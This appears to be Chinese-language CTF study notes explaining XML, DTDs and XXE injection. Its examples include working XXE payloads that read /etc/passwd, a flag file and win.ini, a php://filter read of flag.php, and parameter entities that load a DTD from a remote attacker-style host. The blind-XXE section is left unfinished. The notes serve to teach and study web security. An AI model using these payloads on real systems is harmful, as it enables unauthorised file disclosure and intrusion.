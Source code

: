 ```yaml
---
title: XXE
description: xxe笔记
tags:
  - CTF
  - WEB
categories:
  - 笔记
cover: 'https://tuchuang.voooe.cn/images/2024/05/15/_20240515102411.jpg'
abbrlink: xxe[6]
date: 2024-05-15 10:17:00
---
```


## 认识XML
### 定义
XML即 可扩展标记语言（EXtensible Markup Language），是一种标记语言，其标签没有预定义，您需要自行定义标签，是W3C的推荐标准。
### 与HTML的区别
HTML 被设计用来显示数据
XML 被设计用来传输和存储数据
### 基本格式
```XML
<!--XML声明-->
<?xml version="1.0" encoding="UTF-8"?>

<!--DTD，这部分可选的-->          
<!DOCTYPE foo [ 
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini" >
]>

<!--文档元素-->                                                                          
<foo>&xxe;</foo>

```
### DTD
DTD：Document Type Definition 即文档类型定义，用来为XML文档定义语义约束。
1、内部DTD：即对XML文档中的元素、属性和实体的DTD的声明都在XML文档中。
2、外部DTD：即对XML文档中的元素、属性和实体的DTD的声明都在一个独立的DTD文件（.dtd）中。
#### 内部实体
```XML
<!DOCTYPE note [
    <!ENTITY a "admin">
]>
<note>&a</note>
<!-- admin -->#admin

#<!ENTITY 实体名称 "实体的值">
```
#### 外部实体
```XML
<!DOCTYPE note> [
    <!ENTITY c SYSTEM "php://filter/read=convert.base64-encode/resource=flag.php">
]>
<note>&c</note>
<!-- ZmxhZ3t0ZXN0fQ== -->#flag{test}

#<!ENTITY 实体名称 SYSTEM "URI">
```
#### 参数实体
```XML
<!DOCTYPE note> [
    <!ENTITY % b "<!ENTITY b1 "awsl">">
    %b;
]>
<note>&b1</note>
<!-- awsl -->#awsl

#<!ENTITY % 实体名称 "实体的值">
#<!ENTITY % 实体名称 SYSTEM "URI">

```
参数实体用% name声明，引用时用%name;，只能在DTD中声明，DTD中引用。
其余实体直接用name声明，引用时用&name;，只能在DTD中声明，可在xml文档中引用
#### 外部参数实体
```XML
<!DOCTYPE note> [
    <!ENTITY % d SYSTEM "http://47.106.143.26/xml.dtd">
    %d;
]>
<note>&d1</note>
#<!-- http://47.106.143.26/xml.dtd -->

<!ENTITY d1 SYSTEM "data://text/plain;base64,Y2w0eV9uZWVkX2FfZ3JpbGZyaWVuZA==">
#<!-- Y2w0eV9uZWVkX2FfZ3JpbGZyaWVuZA== -->
#<?xml version="1.0" encoding="utf-8"?><!DOCTYPE a [    <!ENTITY % name SYSTEM "file:///etc/passwd">    %name;]>

```

## 认识XXE
### 定义
1. XXE(XML External Entity Injection)全称为XML外部实体注入，由于程序在解析输入的XML数据时，解析了攻击者伪造的外部实体而产生的。例如PHP中的simplexml_load默认情况下会解析外部实体，有XXE漏洞的标志性函数为simplexml_load_string()。
2. 一般xxe利用分为两大场景：有回显和无回显。有回显的情况可以直接在页面中看到Payload的执行结果或现象，无回显的情况又称为Blind XXE，可以使用外带数据通道提取数据。

### 有回显
#### 利用外部实体
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ 
<!ENTITY rabbit SYSTEM "file:///flag" >
]>
<user><username>&rabbit;</username><password>123</password></user>
```
#### 利用外部参数实体
```XML
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://vps-ip/hack.dtd">
    %file;
]>
<test>&hhh;</test>
```
```XML
<!ENTITY hhh SYSTEM 'file:///etc/passwd'>
```
### 无回显


## 未完待续



















参考：
[XXE知识总结，有这篇就够了！](https://blog.csdn.net/weixin_44420143/article/details/118721145)
[CTF XXE](https://www.cnblogs.com/20175211lyz/p/11413335.html)